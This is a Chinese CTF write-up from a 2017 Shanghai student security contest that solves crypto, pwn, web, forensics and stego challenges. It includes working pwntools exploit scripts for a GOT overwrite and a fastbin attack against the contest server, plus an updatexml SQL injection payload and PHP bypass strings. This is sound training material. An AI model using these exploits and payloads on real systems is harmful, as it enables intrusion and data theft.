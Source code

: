 # 2017年上海大学生信息安全竞赛 

Team: 基因瓢虫

## is aes secure

考察`Padding Oracle`攻击，上网找了个现成的脚本，经过一些更改后即可使用。

详细脚本见 http://fars.ee/os4R/python

## pwn100
程序功能比较简单，无非就是在.bss段前面找一个指针指向.got.plt，在elf头处有很多这样的指针，找`atoi`泄露然后修改为system即可。

主要的利用问题在于向前移位，这里采用“分段”发送的方法：

```python
from pwn import *
r = remote('106.75.8.58', 13579)

back = '4\n'*263007
for i in range(263):
    r.send('4\n'*999)
    r.clean(1)
    r.sendline('4')
    print r.recv()

r.send('4\n'*7)
r.clean(1)
r.sendline('2')
leak = r.recv(6).ljust(8, '\x00')
atoi_addr = u64(leak)

offset_atoi = 0x000000000036e80
offset_system = 0x45390
libc = atoi_addr - offset_atoi
system = offset_system + libc

r.sendline('3')
r.sendline(p64(system))
r.interactive()
```

## 流量分析
FTP流量中有两个`flag.zip`，其中一个是伪加密，处理过后得知`key`不在这里，在SSL流量中。

于是仔细观察FTP流量发现了`key.log`，配入Wireshark即可解密部分SSL流量。通过`ssl && http`查看http报文，发现是百度网盘下载了一个mp3。

频谱分析得到`AaaAaaaAAaaaAAaaaaaaAAAAAaaaaaaa!`，拿去另外一个`flag.zip`解密即可。

## step by step
首先用`wfox`的工具解密phpjiami，发现是三道关卡。

第一关考察`mt_srand`攻击，参考 openwall.com/php_mt_seed 。

第二关为弱类型判断问题，`00`即可绕过。

第三关是绕过正则，`id=php://jpgresource=flag.php`即可。


## p200
fast bin, new string malloc的地址可以盖到指向函数指针列表的指针，修改相应偏移即可。

```python
from pwn import *
context.arch = 'amd64'
context.log_level = 'debug'

r = remote('106.75.8.58',12333)

r.recvuntil("3. free\n")
r.sendline("3")
r.recvuntil("3. free\n")


r.sendline("2")
r.recvuntil("length:\n")
r.sendline(str(0x30))
r.send(p64(0x602d70))

r.recvuntil("3. free\n")

r.sendline("2")
r.recvuntil("length:\n")
r.sendline("3")
r.send("Tom")

r.recvuntil("3. free\n")

r.sendline("2")
r.recvuntil("length:\n")
r.sendline(str(0x30))
r.send(p64(0x602d90))

r.recvuntil("3. free\n")

r.sendline("2")
r.recvuntil("length:\n")
r.sendline("3")
r.send("Tom")
r.interactive()
```

## pwn300 heap

通过类似`p=&p-0x18`的思想，绕过对自定义随机数的检查，并修改这个全局变量的值。

然后溢出改字符串指针，泄漏got表就可以拿到libc。

之后再控一次全局随机数，来绕过对libc中`/bin/sh`的检查。

最后就是改函数指针，执行`system()`。

详细利用脚本见：http://fars.ee/ndRC

这个利用有成功几率的问题，因为一开始随机化堆分配可能导致后面malloc出来的东西和理想布局不同。

## rrrsa 
1.使用hash扩展攻击可以伪造出符合条件的token成为root用户，从而使用regenkey功能
得到原e0 d0

2.使用getPublickey功能 得到新的e1 n1

3.使用showflag 得到加密过的flag

4.生成新密钥的过程中，p,q,n 均不变，n1=n0，根据e0，d0，n0可接的p，q

5.根据p，q，n，e1可得到d1

7.6.使用d1，n 解密，得到flag明文

## clemency
拿到一个使用了clemency架构的bin文件。

使用clemency模拟器运行该文件，发现该程序只是把输入的flag按照架构定义的9bit编码方式输出。

使用ppp开源的`xxd`从flag.enc还原出flag

## classical
拿到一串使用单表替换加密的密文，通过在线网站解密 http://www.quipqiup.com/ 获得明文。

明文中夹杂了一串无意义的字母和数字，感觉像是base64，但直接解码出的原文无意义。

猜测可能对其中的字母又做了替换。通过暴力方式求解，遍历替换表，得到了原文。


## crackme
拿到一个nspack加壳的二进制文件，使用脱壳工具脱壳，发现程序做了异或变换，做逆变换得到原文。

## Some Words
进入博客网站后，发现id=后存在注入点，过滤规则过滤了单引号、and等，id=后第一个指令没过滤。

尝试使用updatexml注入，updatexml(1,concat(0x7e,(SELECT table_name from information_schema limit 0,1),0x7e),1)

写脚本查出存在一张f14g表，表内有一个f14g字段，再通过updatexml查出表内信息，即为flag。

## Welcome To My Blog

随便点击，发现get方法中有一个action，http://2fa303a375c64b82a5e41b742475471d0c874dca9fef44dd.game.ichunqiu.com/index.php?action=home

将action=flag，查看页面源代码，flag在源代码底部。

## 登机牌

修复二维码识别位点可以得到提示使用binwalk。

下方的二维码使用PS反相后解PDF417编码得到Key1921070120171018。

用010editor打开图片可以发现在末尾处追加了修改了RAR文件头的压缩包，修复后使用上面得到的key解压拿到flag。
